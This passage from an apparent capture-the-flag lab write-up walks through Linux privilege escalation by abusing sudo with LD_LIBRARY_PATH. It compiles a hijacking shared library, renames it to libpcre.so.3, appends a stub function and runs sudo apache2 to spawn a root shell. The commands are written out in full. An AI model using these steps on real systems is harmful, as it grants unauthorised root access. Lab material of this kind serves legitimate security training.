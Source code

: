 ```
gcc -o /tmp/libexpat.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Running `apache2` using `sudo` and setting the `LD_LIBRARY_PATH` to the folder location of the shared file we just created will escalate our privileges to root:

![image](https://user-images.githubusercontent.com/14150485/172242116-cb3a0ba4-a3b0-499b-a93f-451a185a3450.png)

<br />

As a final step in this task we will be renaming the `/tmp/libcrypt.so.1` shared file to a different process name and attempting to get root using the same `LD_LIBRARY_PATH`.

```
mv /tmp/libcrypt.so.1 /tmp/libpcre.so.3
```

![image](https://user-images.githubusercontent.com/14150485/172321131-b9cdc52c-1d13-47af-9f37-ab965948fb9f.png)

Attempting to run `apache2` with `sudo` however this time will display an error stating the `pcre_free` function was not found.

![image](https://user-images.githubusercontent.com/14150485/172321426-6c87fbd7-7c64-4fac-af09-03e14dd39428.png)

There are multiple ways we can use to add this function to the `library_path.c` file, the easiest being using the `echo` command to add a line at the end of the program with a void `pcre_free` function:

```
echo "void pcre_free(){}" >> /home/user/tools/sudo/library_path.c
```
Before our new `sudo` attempt we have to use the code in `library_path.c` with the new `libpcre.so.3` shared file:

```
gcc -o /tmp/libpcre.so.3 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Running `apache2` with `sudo` using the `LD_LIBRARY_PATH` should now successfully spawn a root shell:

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

![image](https://user-images.githubusercontent.com/14150485/172322578-c461bb11-428b-4c9f-be67-feff7deea65a.png)

<br/>

### 7.1: Read and follow along with the above.

```
No answer needed
```

<br />
<br />

